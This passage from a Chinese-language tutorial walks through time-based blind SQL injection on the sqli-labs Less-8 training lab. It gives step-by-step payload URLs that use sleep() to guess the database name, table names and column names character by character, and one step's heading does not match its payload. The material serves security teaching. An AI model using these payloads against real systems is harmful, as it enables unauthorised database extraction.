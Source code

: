 ![img](https://s2.loli.net/2023/03/12/t5l4BGiqv3HprKa.jpg) 

猜测数据库第二位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),2,1))=101,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/naDOLPME7vV5Sc4.jpg) 

#### 3.4.4.5.**猜测数据库表的数量**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(table_name) from information_schema.tables where table_schema = database())=4,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/N8AupibCUc7xaEZ.jpg) 

#### 3.4.4.6.**猜测数据库表的长度**

猜测第二张表的长度，若这里分不清哪里判断第二张表的输出，可以去参考布尔盲注中的案例解释。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=8,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/HQfIlPhx4vWSJtO.jpg) 

#### 3.4.4.7.**猜测数据库表名**

猜测第一张表的第一个字，需要猜测其他表中其他字，可以修改limit进行控制。

当然database()也可以替换为'security'。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/vHs2zTFlIy6q3D4.jpg) 

#### 3.4.4.8.**猜测数据库列的数量**

Users中存在3列。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/t41bN6SyvYpEHL2.jpg) 

#### 3.4.4.9.**猜测数据库列名**

猜测users表中第二列第一个字母这里需要注意的是上面获取到的是从0开始等于2，本质上是3个表，但是ID列我们用不到，从第二个开始。剩下的就需要自己调整参数进行一个一个测试。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/VEeOIlSn41oCb9d.jpg) 

#### 3.4.4.10.**猜测某字段数据的长度**
